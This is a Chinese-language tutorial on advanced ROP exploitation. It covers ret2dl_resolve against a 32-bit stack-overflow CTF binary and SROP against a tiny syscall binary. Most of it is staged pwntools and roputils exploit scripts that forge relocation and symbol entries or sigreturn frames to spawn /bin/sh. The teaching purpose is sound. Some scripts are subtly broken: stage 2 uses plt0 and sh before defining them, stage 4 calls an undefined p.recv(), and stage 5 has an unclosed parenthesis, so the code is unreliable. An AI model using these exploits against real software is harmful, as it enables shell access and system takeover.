










# 高级ROP

## ret2_dll_runtime_resolve

具体利用方式如下

- 控制程序执行 dl_resolve 函数
  - 给定 Link_map 以及 index 两个参数。
  - 当然我们可以直接给定 plt0 对应的汇编代码，这时，我们就只需要一个 index 就足够了。
- 控制 index 的大小，以便于指向自己所控制的区域，从而伪造一个指定的重定位表项。
- 伪造重定位表项，使得重定位表项所指的符号也在自己可以控制的范围内。
- 伪造符号内容，使得符号对应的名称也在自己可以控制的范围内。

此外，这个攻击成功的很必要的条件

- dl_resolve 函数不会检查对应的符号是否越界，它只会根据我们所给定的数据来执行。
- dl_resolve 函数最后的解析根本上依赖于所给定的字符串。

注意：

- 符号版本信息
  - 最好使得 ndx = VERSYM[(reloc->r_info) >> 8] 的值为 0，以便于防止找不到的情况。
- 重定位表项
  - r_offset 必须是可写的，因为当解析完函数后，必须把相应函数的地址填入到对应的地址。

例,

```c++
    // main.c
    #include <unistd.h>
    #include <stdio.h>
    #include <string.h>

    void vuln()
    {
        char buf[100];
        setbuf(stdin, buf);
        read(0, buf, 256);
    }
    int main()
    {
        char buf[100] = "Welcome to XDCTF2015~!\n";

        setbuf(stdout, buf);
        write(1, buf, strlen(buf));
        vuln();
        return 0;
    }
```

编译为32位： `gcc main.c -m32 -fno-stack-protector -o main`

1. 利用正常的代码来使用该技巧从而获取 shell。
    - stage 1 测试控制程序执行 write 函数的效果。
    - stage 2 测试控制程序执行 dl_resolve 函数，并且相应参数指向正常 write 函数的 plt 时的执行效果。
    - stage 3 测试控制程序执行 dl_resolve 函数，并且相应参数指向伪造的 write 函数的 plt 时的执行效果。
2. 利用 roputils 中已经集成好的工具来实现攻击，从而获取 shell。

### 正常攻击

可以得到偏移量为 0x6c+4(112)




#### STAGE1

通过栈迁移到bss段来控制write函数：

1. 将栈迁移到bss段（stack pivot）
2. 控制write函数输出相应的字符串

```python
  from pwn import *
  elf = ELF('main')
  r = process('./main')
  rop = ROP('./main')

  offset = 112
  bss_addr = elf.bss()

  r.recvuntil('Welcome to XDCTF2015~!\n')

  ## stack pivoting to bss segment
  ## new stack size is 0x800
  stack_size = 0x800
  base_stage = bss_addr + stack_size
  ### padding
  rop.raw('a' * offset)
  ### read 100 byte to base_stage
  rop.read(0, base_stage, 100)
  ### stack pivoting, set esp = base_stage
  rop.migrate(base_stage) # 通过 pop ebp;ret和leave;ret，使esp指向0x804a840(0x804a83c+4)
  '''
  # print rop.dump()
  ...             ...
  0x0070:        0x80483a0 read(0, 0x804a840, 100)
  0x0074:        0x8048376 <adjust @0x84> add esp, 8; pop ebx; ret
  0x0078:              0x0 arg0
  0x007c:        0x804a840 arg1
  0x0080:             0x64 arg2
  0x0084:        0x804861b pop ebp; ret // ret => pop eip
  0x0088:        0x804a83c
  0x008c:        0x8048458 leave; ret
  '''

  r.sendline(rop.chain())

  rop = ROP('./main')
  sh = "/bin/sh"
  rop.write(1, base_stage + 80, len(sh))  # 将'bin/sh'输出
  rop.raw('a' * (80 - len(rop.chain())))
  rop.raw(sh)
  rop.raw('a' * (100 - len(rop.chain())))

  r.sendline(rop.chain())
  r.recv()
```



#### STAGE2

利用 `plt[0]` 中的相关指令，即 `push linkmap` 以及跳转到 dl_resolve 函数中解析的指令。此外，我们还得单独提供一个 write 重定位项在 plt 表中的偏移。

```python
  from pwn import *
  elf = ELF('main')
  r = process('./main')
  rop = ROP('./main')

  offset = 112
  bss_addr = elf.bss()

  r.recvuntil('Welcome to XDCTF2015~!\n')

  stack_size = 0x800
  base_stage = bss_addr + stack_size
  rop.raw('a' * offset)
  rop.read(0, base_stage, 100)
  rop.migrate(base_stage)
  r.sendline(rop.chain())

  write_index = (elf.plt['write'] - plt0) / 16 - 1
  write_index *= 8
  rop.raw(plt0)
  rop.raw(write_index)
  rop.raw('bbbb') # fake ret addr of write
  rop.raw(1)
  rop.raw(base_stage + 80)
  rop.raw(len(sh))
  rop.raw('a' * (80 - len(rop.chain())))
  rop.raw(sh)
  rop.raw('a' * (100 - len(rop.chain())))

  r.sendline(rop.chain())
  r.recv()
```



#### STAGE3

同样控制 dl_resolve 函数中的 index_offset 参数，不过这次控制其指向我们伪造的 write 重定位项。
pwntools 本身并不支持对重定位表项的信息的获取，通过readelf查看



可以看出 write 的重定表项的 r_offset=0x0804a01c，r_info=0x00000607。

```python
  from pwn import *
  elf = ELF('main')
  r = process('./main')
  rop = ROP('./main')

  offset = 112
  bss_addr = elf.bss()

  r.recvuntil('Welcome to XDCTF2015~!\n')

  stack_size = 0x800
  base_stage = bss_addr + stack_size
  rop.raw('a' * offset)
  rop.read(0, base_stage, 100)
  rop.migrate(base_stage)
  r.sendline(rop.chain())

  plt0 = elf.get_section_by_name('.plt').header.sh_addr
  rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
  ## making base_stage+24 ---> fake reloc
  index_offset = base_stage + 24 - rel_plt
  write_got = elf.got['write']
  r_info = 0x607

  rop.raw(plt0)
  rop.raw(index_offset)
  ## fake ret addr of write
  rop.raw('bbbb')
  rop.raw(1)
  rop.raw(base_stage + 80)
  rop.raw(len(sh))
  rop.raw(write_got)  # fake reloc
  rop.raw(r_info)
  rop.raw('a' * (80 - len(rop.chain())))
  rop.raw(sh)
  rop.raw('a' * (100 - len(rop.chain())))

  r.sendline(rop.chain())
  r.recv()
```



#### STAGE4

stage3 中，我们控制了重定位表项，但是重定位表项的内容与 write 原来的重定位表项一致，这次，我们将构造属于我们自己的重定位表项，并且伪造该表项对应的符号。根据 write 的重定位表项的 r_info=0x607 可以知道，write 对应的符号在符号表的下标为 0x607>>8=0x6。因此，write 对应的符号地址为 0x8048238。



小端序，每个符号占用16个字节

```python
  from pwn import *
  elf = ELF('main')
  r = process('./main')
  rop = ROP('./main')

  offset = 112
  bss_addr = elf.bss()

  r.recvuntil('Welcome to XDCTF2015~!\n')

  stack_size = 0x800
  base_stage = bss_addr + stack_size
  rop.raw('a' * offset)
  rop.read(0, base_stage, 100)
  rop.migrate(base_stage)
  r.sendline(rop.chain())

  rop = ROP('./main')
  sh = "/bin/sh"

  plt0 = elf.get_section_by_name('.plt').header.sh_addr
  rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
  dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
  dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

  ### making fake write symbol
  fake_sym_addr = base_stage + 32
  align = 0x10 - ((fake_sym_addr - dynsym) & 0xf
                  )  # since the size of item(Elf32_Symbol) of dynsym is 0x10
  fake_sym_addr = fake_sym_addr + align
  index_dynsym = (
      fake_sym_addr - dynsym) / 0x10  # calculate the dynsym index of write
  fake_write_sym = flat([0x4c, 0, 0, 0x12])

  ### making fake write relocation

  ## making base_stage+24 ---> fake reloc
  index_offset = base_stage + 24 - rel_plt
  write_got = elf.got['write']
  r_info = (index_dynsym << 8) | 0x7
  fake_write_reloc = flat([write_got, r_info])

  rop.raw(plt0)
  rop.raw(index_offset)
  ## fake ret addr of write
  rop.raw('bbbb')
  rop.raw(1)
  rop.raw(base_stage + 80)
  rop.raw(len(sh))
  rop.raw(fake_write_reloc)  # fake write reloc
  rop.raw('a' * align)  # padding
  rop.raw(fake_write_sym)  # fake write symbol
  rop.raw('a' * (80 - len(rop.chain())))
  rop.raw(sh)
  rop.raw('a' * (100 - len(rop.chain())))

  r.sendline(rop.chain())
  p.recv()
```



#### STAGE5

这一阶段，我们将在阶段 4 的基础上，我们进一步使得 write 符号的 st_name 指向我们自己构造的字符串。

```python
  from pwn import *
  elf = ELF('main')
  r = process('./main')
  rop = ROP('./main')

  offset = 112
  bss_addr = elf.bss()

  r.recvuntil('Welcome to XDCTF2015~!\n')

  ## stack pivoting to bss segment
  ## new stack size is 0x800
  stack_size = 0x800
  base_stage = bss_addr + stack_size
  ### padding
  rop.raw('a' * offset)
  ### read 100 byte to base_stage
  rop.read(0, base_stage, 100)
  ### stack pivoting, set esp = base_stage
  rop.migrate(base_stage)
  r.sendline(rop.chain())

  ## write sh="/bin/sh"
  rop = ROP('./main')
  sh = "/bin/sh"

  plt0 = elf.get_section_by_name('.plt').header.sh_addr
  rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
  dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
  dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

  ### making fake write symbol
  fake_sym_addr = base_stage + 32
  align = 0x10 - ((fake_sym_addr - dynsym) & 0xf
                  )  # since the size of item(Elf32_Symbol) of dynsym is 0x10
  fake_sym_addr = fake_sym_addr + align
  index_dynsym = (
      fake_sym_addr - dynsym) / 0x10  # calculate the dynsym index of write
  ## plus 10 since the size of Elf32_Sym is 16.
  st_name = fake_sym_addr + 0x10 - dynstr
  fake_write_sym = flat([st_name, 0, 0, 0x12])

  ### making fake write relocation

  ## making base_stage+24 ---> fake reloc
  index_offset = base_stage + 24 - rel_plt
  write_got = elf.got['write']
  r_info = (index_dynsym << 8) | 0x7
  fake_write_reloc = flat([write_got, r_info])

  rop.raw(plt0)
  rop.raw(index_offset)
  ## fake ret addr of write
  rop.raw('bbbb')
  rop.raw(1)
  rop.raw(base_stage + 80)
  rop.raw(len(sh))
  rop.raw(fake_write_reloc)  # fake write reloc
  rop.raw('a' * align)  # padding
  rop.raw(fake_write_sym)  # fake write symbol
  rop.raw('write\x00')  # there must be a \x00 to mark the end of string
  rop.raw('a' * (80 - len(rop.chain())))
  rop.raw(sh)
  rop.raw('a' * (100 - len(rop.chain())))

  r.sendline(rop.chain()
  r.recv()
```



#### STAGE6

这一阶段，我们只需要将原先的 write 字符串修改为 system 字符串，同时修改 write 的参数为 system 的参数即可获取 shell。这是因为，dl_resolve 最终依赖的是我们所给定的字符串，即使我们给了一个假的字符串它仍然会去解析并执行。

```python
  from pwn import *
  elf = ELF('main')
  r = process('./main')
  rop = ROP('./main')

  offset = 112
  bss_addr = elf.bss()

  r.recvuntil('Welcome to XDCTF2015~!\n')

  ## stack pivoting to bss segment
  ## new stack size is 0x800
  stack_size = 0x800
  base_stage = bss_addr + stack_size
  ### padding
  rop.raw('a' * offset)
  ### read 100 byte to base_stage
  rop.read(0, base_stage, 100)
  ### stack pivoting, set esp = base_stage
  rop.migrate(base_stage)
  r.sendline(rop.chain())

  ## write sh="/bin/sh"
  rop = ROP('./main')
  sh = "/bin/sh"

  plt0 = elf.get_section_by_name('.plt').header.sh_addr
  rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
  dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
  dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

  ### making fake write symbol
  fake_sym_addr = base_stage + 32
  align = 0x10 - ((fake_sym_addr - dynsym) & 0xf
                  )  # since the size of item(Elf32_Symbol) of dynsym is 0x10
  fake_sym_addr = fake_sym_addr + align
  index_dynsym = (
      fake_sym_addr - dynsym) / 0x10  # calculate the dynsym index of write
  ## plus 10 since the size of Elf32_Sym is 16.
  st_name = fake_sym_addr + 0x10 - dynstr
  fake_write_sym = flat([st_name, 0, 0, 0x12])

  ### making fake write relocation

  ## making base_stage+24 ---> fake reloc
  index_offset = base_stage + 24 - rel_plt
  write_got = elf.got['write']
  r_info = (index_dynsym << 8) | 0x7
  fake_write_reloc = flat([write_got, r_info])

  rop.raw(plt0)
  rop.raw(index_offset)
  ## fake ret addr of write
  rop.raw('bbbb')
  rop.raw(base_stage + 82)
  rop.raw('bbbb')
  rop.raw('bbbb')
  rop.raw(fake_write_reloc)  # fake write reloc
  rop.raw('a' * align)  # padding
  rop.raw(fake_write_sym)  # fake write symbol
  rop.raw('system\x00')  # there must be a \x00 to mark the end of string
  rop.raw('a' * (80 - len(rop.chain())))
  rop.raw(sh + '\x00')
  rop.raw('a' * (100 - len(rop.chain())))

  r.sendline(rop.chain())
  r.interactive()
```

因为pwntools会自动对齐字符串，所以'/bin/sh'的偏移为0x52(82)

```shell
  >>> print rop.dump()
  0x0000:        0x8048380
  0x0004:           0x2528
  0x0008:           'bbbb' 'bbbb'
  0x000c:        0x804a892
  0x0010:           'bbbb' 'bbbb'
  0x0014:           'bbbb' 'bbbb'
  0x0018: '\x1c\xa0\x04\x08' '\x1c\xa0\x04\x08\x07i\x02\x00'
  0x001c:  '\x07i\x02\x00'
  0x0020:           'aaaa' 'aaaaaaaa'
  0x0024:           'aaaa'
  0x0028:  '\x00&\x00\x00' '\x00&\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x12\x00\x00\x00'
  0x002c: '\x00\x00\x00\x00'
  0x0030: '\x00\x00\x00\x00'
  0x0034: '\x12\x00\x00\x00'
  0x0038:           'syst' 'system\x00'
  0x003c:        'em\x00o'
  0x0040:             'aa'
  0x0044:           'aaaa' 'aaaaaaaaaaaaaa'
  0x0048:           'aaaa'
  0x004c:           'aaaa'
  0x0050:           'aara'
  0x0054:           '/bin' '/bin/sh\x00'
  0x0058:        '/sh\x00'
  0x005c:           'aaaa' 'aaaaaaaaaa'
  0x0060:           'aaaa'
  0x0064:           'aaxa'
  >>> rop.chain()[80:]
  'ra/bin/sh\x00aaaaaaaaaaxa'
  >>> rop.chain()[82:]
  '/bin/sh\x00aaaaaaaaaaxa'
  >>>
```

### 使用工具

```python
  from roputils import *
  from pwn import process
  from pwn import gdb
  from pwn import context
  r = process('./main')
  context.log_level = 'debug'
  r.recv()

  rop = ROP('./main')
  offset = 112
  bss_base = rop.section('.bss')
  buf = rop.fill(offset)

  buf += rop.call('read', 0, bss_base, 100)
  ## used to call dl_Resolve()
  buf += rop.dl_resolve_call(bss_base + 20, bss_base)
  r.send(buf)

  buf = rop.string('/bin/sh')
  buf += rop.fill(20, buf)
  ## used to make faking data, such relocation, Symbol, Str
  buf += rop.dl_resolve_data(bss_base + 20, 'system')
  buf += rop.fill(100, buf)
  r.send(buf)
  r.interactive()
```



## SROP

### signal 机制

1. 内核向某个进程发送 signal 机制，该进程会被暂时挂起，进入内核态。

2. 内核会为该进程保存相应的上下文，主要是将所有寄存器压入栈中，以及压入 signal 信息，以及指向 sigreturn 的系统调用地址。此时栈的结构如下图所示，我们称 ucontext 以及 siginfo 这一段为 Signal Frame。需要注意的是，这一部分是在用户进程的地址空间的。之后会跳转到注册过的 signal handler 中处理相应的 signal。因此，当 signal handler 执行完之后，就会执行 sigreturn 代码。

3. signal handler 返回后，内核为执行 sigreturn 系统调用，为该进程恢复之前保存的上下文，其中包括将所有压入的寄存器，重新 pop 回对应的寄存器，最后恢复进程的执行。其中，32 位的 sigreturn 的调用号为 77(0x4d)，64 位的系统调用号为 15(0xf)。


- x86

```c++
  struct sigcontext
  {
    unsigned short gs, __gsh;
    unsigned short fs, __fsh;
    unsigned short es, __esh;
    unsigned short ds, __dsh;
    unsigned long edi;
    unsigned long esi;
    unsigned long ebp;
    unsigned long esp;
    unsigned long ebx;
    unsigned long edx;
    unsigned long ecx;
    unsigned long eax;
    unsigned long trapno;
    unsigned long err;
    unsigned long eip;
    unsigned short cs, __csh;
    unsigned long eflags;
    unsigned long esp_at_signal;
    unsigned short ss, __ssh;
    struct _fpstate * fpstate;
    unsigned long oldmask;
    unsigned long cr2;
  };
```

- x64

```c++
  struct _fpstate
  {
    /* FPU environment matching the 64-bit FXSAVE layout.  */
    __uint16_t        cwd;
    __uint16_t        swd;
    __uint16_t        ftw;
    __uint16_t        fop;
    __uint64_t        rip;
    __uint64_t        rdp;
    __uint32_t        mxcsr;
    __uint32_t        mxcr_mask;
    struct _fpxreg    _st[8];
    struct _xmmreg    _xmm[16];
    __uint32_t        padding[24];
  };

  struct sigcontext
  {
    __uint64_t r8;
    __uint64_t r9;
    __uint64_t r10;
    __uint64_t r11;
    __uint64_t r12;
    __uint64_t r13;
    __uint64_t r14;
    __uint64_t r15;
    __uint64_t rdi;
    __uint64_t rsi;
    __uint64_t rbp;
    __uint64_t rbx;
    __uint64_t rdx;
    __uint64_t rax;
    __uint64_t rcx;
    __uint64_t rsp;
    __uint64_t rip;
    __uint64_t eflags;
    unsigned short cs;
    unsigned short gs;
    unsigned short fs;
    unsigned short __pad0;
    __uint64_t err;
    __uint64_t trapno;
    __uint64_t oldmask;
    __uint64_t cr2;
    __extension__ union
      {
        struct _fpstate * fpstate;
        __uint64_t __fpstate_word;
      };
    __uint64_t __reserved1 [8];
  };
```

### 攻击原理

内核主要做的工作就是为进程保存上下文，并且恢复上下文。这个主要的变动都在 Signal Frame 中。但是需要注意的是：

- Signal Frame 被保存在用户的地址空间中，所以用户是可以读写的。
- 由于内核与信号处理程序无关 (kernel agnostic about signal handlers)，它并不会去记录这个 signal 对应的 Signal Frame，所以当执行 sigreturn 系统调用时，此时的 Signal Frame 并不一定是之前内核为用户进程保存的 Signal Frame。

#### 例

```s
text:00000000004000B0                 public start
.text:00000000004000B0 start           proc near
.text:00000000004000B0                 xor     rax, rax
.text:00000000004000B3                 mov     edx, 400h     ; count
.text:00000000004000B8                 mov     rsi, rsp      ; buf
.text:00000000004000BB                 mov     rdi, rax      ; fd
.text:00000000004000BE                 syscall   ; LINUX - sys_read
.text:00000000004000C0                 retn
.text:00000000004000C0 start           endp
.text:00000000004000C0
.text:00000000004000C0 _text           ends
```

程序很简单，没有sigreturn调用和`pop rax;ret`,但是调用了read函数所以可以通过read来设置rax的值

- 通过控制 read 读取的字符数来设置 RAX 寄存器的值，从而执行 sigreturn
- 通过 syscall 执行 execve("/bin/sh",0,0) 来获取 shell。

```python
  from pwn import *
  from LibcSearcher import *
  small = ELF('./smallest')
  if args['REMOTE']:
      sh = remote('127.0.0.1', 7777)
  else:
      sh = process('./smallest')
  context.arch = 'amd64'
  context.log_level = 'debug'
  syscall_ret = 0x00000000004000BE
  start_addr = 0x00000000004000B0
  ## set start addr three times
  payload = p64(start_addr) * 3
  sh.send(payload)

  ## modify the return addr to start_addr+3
  ## so that skip the xor rax,rax; then the rax=1
  ## get stack addr
  sh.send('\xb3')
  stack_addr = u64(sh.recv()[8:16])
  log.success('leak stack addr :' + hex(stack_addr))

  ## make the rsp point to stack_addr
  ## the frame is read(0,stack_addr,0x400)
  sigframe = SigreturnFrame()
  sigframe.rax = constants.SYS_read
  sigframe.rdi = 0
  sigframe.rsi = stack_addr
  sigframe.rdx = 0x400
  sigframe.rsp = stack_addr
  sigframe.rip = syscall_ret
  payload = p64(start_addr) + 'a' * 8 + str(sigframe)
  sh.send(payload)

  ## set rax=15 and call sigreturn
  sigreturn = p64(syscall_ret) + 'b' * 7
  sh.send(sigreturn)

  ## call execv("/bin/sh",0,0)
  sigframe = SigreturnFrame()
  sigframe.rax = constants.SYS_execve
  sigframe.rdi = stack_addr + 0x120  # "/bin/sh" 's addr
  sigframe.rsi = 0x0
  sigframe.rdx = 0x0
  sigframe.rsp = stack_addr
  sigframe.rip = syscall_ret

  frame_payload = p64(start_addr) + 'b' * 8 + str(sigframe)
  print len(frame_payload)
  payload = frame_payload + (0x120 - len(frame_payload)) * '\x00' + '/bin/sh\x00'
  sh.send(payload)
  sh.send(sigreturn)
  sh.interactive()
```

其基本流程为

- 读取三个程序起始地址
- 程序返回时，利用第一个程序起始地址读取地址，修改返回地址 (即第二个程序起始地址) 为源程序的第二条指令，并且会设置 rax=1
- 那么此时将会执行 write(1,$esp,0x400)，泄露栈地址。
- 利用第三个程序起始地址进而读入 payload
- 再次读取构造 sigreturn 调用，进而将向栈地址所在位置读入数据，构造 execve('/bin/sh',0,0)
- 再次读取构造 sigreturn 调用，从而获取 shell。
